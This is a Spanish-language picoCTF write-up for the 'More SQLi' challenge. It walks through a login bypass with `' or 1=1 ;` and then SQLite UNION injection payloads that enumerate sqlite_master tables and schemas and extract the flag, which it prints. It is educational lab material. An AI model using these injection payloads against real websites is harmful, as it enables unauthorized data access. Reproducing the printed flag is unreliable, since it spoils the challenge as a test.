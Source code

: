 
## Reto
More SQLi
## Descripcion
Can you find the flag on this website.Try to find the flag [here](http://saturn.picoctf.net:64087/).

## Solucion
- al entrar me pregunta por usuario y contraseñaentonces para loggearme uso `' or 1=1 ;` en contraseña para saltarme la verificacion
- ya dentro hay algo como un buscador de ciudades en una base de datos que sigue una estructura similar a `SELECT [ALGO] FROM [TABLA] WHERE [INPUT DADO]`
- intento hacer una inyeccion poniedo esto primero: 
  `zac' union select 1,2,3;` y veo que funciona
- ahora trato de ver en que version estamos con `zac' union select sqlite_version(),2,3;` y me regresa la vercion 3.31.1
- revisando el acordeon de inyecciones proporcionados ahora uso una inyeccion para ver los nombres de todas las tablas con: 
  `' union select 1,2,tbl_name FROM sqlite_master WHERE type='table' ;`  
- y para revisar sus estructuras ahora uso: `ciudad' union select 1,sql,tbl_name FROM sqlite_master WHERE type='table' ;`
  ![[Pasted image 20250924121133.png]]
<img width="824" height="722" alt="Pasted image 20250924121133" src="https://github.com/user-attachments/assets/f32969e9-5ded-4d5e-8a77-92e8fea4d627" />

  
- Ahora puedo ver que en more_table esta la bandera, entonces solo me queda que me devuelva esa informacion usando:
  ``ciudad' union select 1,2,flag from more_table;`` y obtengo la bandera: **picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_62aa7500}**

## Notas
- con esta y la practica de Irish-Name-Repo se puede ver que es muy importante depurar las contraseñas y usuarios para no ser victimas de una inyeccion sql que podria por terminar con alguien aplicando un `DROP TABLE`
## Referencias
[PayloadsAllTheThings/SQL Injection/SQLite Injection.md at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)
